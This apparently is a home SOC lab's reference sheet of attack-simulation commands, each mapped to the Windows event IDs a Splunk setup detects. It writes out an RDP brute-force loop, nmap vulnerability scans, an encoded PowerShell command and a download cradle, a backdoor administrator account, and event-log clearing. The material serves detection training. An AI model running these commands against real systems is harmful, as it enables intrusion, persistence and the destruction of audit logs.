






# Attack Simulation Commands Reference

All commands used in this lab for attack simulations. Run only in an isolated lab environment — never against systems you do not own or have explicit written authorization to test.

---

## Environment

| Machine | IP | Role |
|---|---|---|
| Kali Linux | 192.168.250.130 | Attacker |
| Windows 11 | 192.168.250.129 | Target |
| Ubuntu/Splunk | 192.168.250.128 | SIEM |

---

## Attack 1 — Brute Force RDP (from Kali)

```bash
# Extract rockyou wordlist if compressed
sudo gunzip /usr/share/wordlists/rockyou.txt.gz

# Run RDP brute force
for i in {1..30}; do
  xfreerdp3 /u:administrator /p:wrongpassword$i /v:192.168.250.129 /cert-ignore +auth-only 2>/dev/null
  echo "Attempt $i complete"
  sleep 1
done
```

**Detection EventID:** 4625





---

## Attack 2 — Port Scan (from Kali)

```bash
# Full aggressive scan
nmap -sV -O -A 192.168.250.129

# Vulnerability scripts
nmap -sS --script=vuln 192.168.250.129

# Quick port check
nmap -p 3389,445,80,443,22 192.168.250.129
```


**Detection EventID:** Sysmon EventCode 3

---

## Attack 3 — Suspicious PowerShell (on W11SOC)

```powershell
# Enable logging first
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" /v EnableScriptBlockLogging /t REG_DWORD /d 1 /f
auditpol /set /subcategory:"Process Creation" /success:enable /failure:enable

# Encoded command (obfuscation technique)
$command = "whoami"
$encoded = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($command))
powershell -EncodedCommand $encoded

# Download cradle (fileless malware simulation)
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://127.0.0.1/fake')"

# Reconnaissance
powershell -c "Get-LocalUser"
powershell -c "Get-LocalGroupMember Administrators"
powershell -c "Invoke-Expression 'net localgroup administrators'"
```

**Detection EventID:** 4688, PowerShell Operational Log

---

## Attack 4 — Privilege Escalation Enumeration (on W11SOC)

```cmd
whoami /priv
whoami /groups
net localgroup administrators
net user
```

**Detection EventID:** 4672, 4688



---

## Attack 5 — Backdoor Account Creation (on W11SOC)

```cmd
# Create backdoor admin account
net user hacker Password123! /add
net localgroup administrators hacker /add

# Verify account was created
net user hacker
net localgroup administrators

# Cleanup after lab
net user hacker /delete
```


**Detection EventID:** 4720, 4732

---

## Attack 6 — Security Log Clearing (on W11SOC)

```cmd
# Clear event logs (anti-forensics)
wevtutil cl System
wevtutil cl Application
wevtutil cl Security
```

**Detection EventID:** 1102 (Security log cleared), 104 (System log cleared)



---

## Notes

- All simulations conducted in isolated VMware NAT network
- No external systems were targeted or affected
- All test accounts created were deleted after simulation
- Logs were preserved in Splunk despite local clearing
